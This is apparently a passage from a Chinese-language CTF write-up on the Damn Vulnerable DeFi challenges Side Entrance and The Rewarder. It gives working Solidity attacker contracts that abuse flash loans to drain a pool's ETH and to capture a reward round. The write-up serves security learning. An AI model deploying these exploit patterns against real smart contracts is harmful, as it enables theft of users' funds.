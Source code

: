 ### 4.Side Entrance
该挑战的目标是将一个闪电贷pool里的ETH全部提取出来。

观察pool合约，可以看到pool的flashLoan()调用了用了接收者的execute()并附带借贷的ETH进行发送，最后仅仅检查pool的address(this).balance >= balanceBefore通过即可完成闪电贷。因此有了一个大致攻击的思路：利用闪电贷重入自己的代码并满足上述条件进行套利。同时发现pool有deposit()函数可以存入ETH，withdraw()函数可以取出ETH。
因此攻击思路就显而易见了：攻击者首先在闪电贷中将借得的ETH在excute中存入该pool中，此步操作增加了攻击者在pool中的ETH存款的同时又能通过flashLoan的检查。然后将利用withdraw()即可将ETH从pool中提取出来，完成一次攻击。
   
     contract SideEntranceAttacker {

        address private pool;
      
        constructor(address poolAddress) {
            pool = poolAddress;
        }
    
        function execute() external payable{
            IPool(pool).deposit{value:msg.value}();
        }
    
        function attack() public {
            uint256 amount = pool.balance;
            IPool(pool).flashLoan(amount);
            IPool(pool).withdraw();
            address payable receiver = payable(msg.sender);
            receiver.transfer(amount);
        }
    
        receive() external payable {}
    
    }

### 5.The rewarder

该挑战的目标是尽可能地在奖励池的下一个奖励回合中捞取其奖励代币。

该挑战是个典型的闪电贷攻击挑战，而且还很贴心的告诉你这里有个闪电贷池子。奖励池的奖励分配规则是按照每个人存入的DVT占总存入额的百分比进行奖励分配。因此思路就很明晰了：在下一个奖励回合到来的时候利用闪电贷借出大额资金（闪电贷池子所有资金），将其注入奖励池中，获得大部分奖励后归还资金，即可完成挑战。
    
    function receiveFlashLoan(uint256 amount) external {
        IToken(dvt).approve(rewardPool,amount);
        RewardPool(rewardPool).deposit(amount);
        RewardPool(rewardPool).withdraw(amount);
        require(IToken(rewardToken).balanceOf(address(this)) >= 99 ether,"reward token low!");
        IToken(dvt).transfer(flashLoanPool,amount);
        }
    
    function attack() public {
        uint256 amount = IToken(dvt).balanceOf(flashLoanPool);
        FlashLoanPool(flashLoanPool).flashLoan(amount);
        uint256 reward = IToken(rewardToken).balanceOf(address(this));
        IToken(rewardToken).transfer(msg.sender,reward);
    }

### 6.Selfie
